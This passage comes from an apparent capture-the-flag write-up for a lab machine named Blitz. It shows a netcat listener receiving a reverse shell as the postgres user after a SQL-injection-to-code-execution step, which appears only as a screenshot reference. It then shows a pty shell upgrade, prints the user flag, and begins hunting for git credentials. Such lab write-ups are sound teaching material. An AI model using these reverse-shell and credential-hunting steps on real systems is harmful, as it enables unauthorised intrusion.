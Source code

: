 ![Alt text](Screenshots/sql-2-rce.png)


And we receive a reverse shell as the postgres user!
```
┌──(kali㉿kali)-[~/Blitz]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.100.132] from (UNKNOWN) [192.168.100.131] 35204
whoami
postgres
python3 -c "import pty; pty.spawn('/bin/bash')"
postgres@blitz:/var/lib/postgresql/15/main$ export TERM=xterm
export TERM=xterm
postgres@blitz:/var/lib/postgresql/15/main$ 
postgres@blitz:/var/lib/postgresql/15/main$ cat /user1.txt
cat /user1.txt
ICSD{2c3db304eedeff55b9a860f284729f89}
```

## Enumerating the System
### Finding Credentials for git
Looking for things that may help us escalate our privileges, we find /opt/Blitz directory. This directory serves as the root directory from which the Blitz app we've just exploited is launched.
